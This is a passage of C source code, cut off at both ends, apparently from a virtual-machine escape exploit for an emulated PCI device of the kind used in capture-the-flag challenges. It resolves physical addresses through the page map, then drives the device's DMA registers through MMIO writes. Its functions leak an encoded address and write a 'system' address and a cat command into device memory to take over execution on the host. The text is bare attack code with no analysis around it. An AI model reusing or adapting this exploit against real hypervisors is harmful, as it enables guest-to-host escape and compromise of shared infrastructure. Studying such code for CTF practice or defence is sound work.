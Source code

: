 ```
		close(fd);
		return 0;
	}

	if(read(fd,&data,8) != 8){
		puts("read");
		close(fd);
		return 0;
	}

	if(!(data & (((uint64_t)1 << 63)))){
		puts("page");
		close(fd);
		return 0;
	}

	size_t pageframenum = data & ((1ull << 55) - 1);
	size_t phyaddr = pageframenum * pagesize + (uintptr_t)addr % pagesize;

	close(fd);

	return phyaddr;
}

void write_src(uint32_t src){
	mmio_write(0x80,src);
}

void write_dst(uint32_t dst){
	mmio_write(0x88,dst);
}

void write_cnt(uint32_t cnt){
	mmio_write(0x90,cnt);
}

void write_cmd(uint32_t cmd){
	mmio_write(0x98,cmd);
}

void read_enc_addr(){
	write_dst(userbuf_pa);
	write_src(0x41000);
	write_cnt(8);
	write_cmd(3);
	sleep(1);
}

void write_system_addr(void *buf, size_t len){
    assert(len<0x1000);

    memcpy(userbuf,buf,len);

    write_dst(0x41000);
	write_src(userbuf_pa);
    write_cnt(len);
    write_cmd(1);

    sleep(1);
}

void write_cat_addr(void *buf,size_t len){
	assert(len<0x1000);
```